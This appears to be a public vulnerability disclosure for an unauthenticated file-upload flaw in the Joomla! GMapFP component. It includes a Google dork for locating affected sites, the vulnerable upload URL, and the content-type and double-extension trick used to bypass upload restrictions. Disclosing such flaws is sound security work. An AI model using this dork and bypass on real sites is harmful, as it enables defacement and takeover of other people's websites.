 # Reports

# Exploit Title: Joomla! Component GMapFP 3.5* - Unauthenticated Arbitrary File Upload
# Google Dork: inurl:''com_gmapfp''
# Date: 2020-03-27
# Exploit Author: ThelastVvV
# Vendor Homepage:https://gmapfp.org/
# Version:Version J3.5 /J3.5free
# Tested on: ubuntu

# Description:

An attacker can access the upload function of the application without authenticating to the application and also can upload files due the issues of unrestricted file uploads which can be bypassed by changing the content-type and name file too double extensions 

# PoC:


Version J3.5
http://127.0.0.1/index.php?option=com_gmapfp&controller=editlieux&tmpl=component&task=edit_upload


https://i.imgur.com/TUHu1Oa.jpg


#once the attacker can locate the unauthenticated file upload form then the attacker can bypass the restriction by changing content-type and name file double extensions file.html.gif then can open file.html

# Impact
the attacker can upload malicious files can cause defacement of the site or uploading large amount of file til causes denial of service attack to Webapp/Server

# Dir File Path:
http://127.0.0.1///images/stories/gmapfp/test.html.gif
http://127.0.0.1///images/stories/gmapfp/test.html
http://127.0.0.1///images/gmapfp/test2.html.gif
http://127.0.0.1///images/gmapfp/test2.html.gif


# Issues are fixed,Please update to Last Version

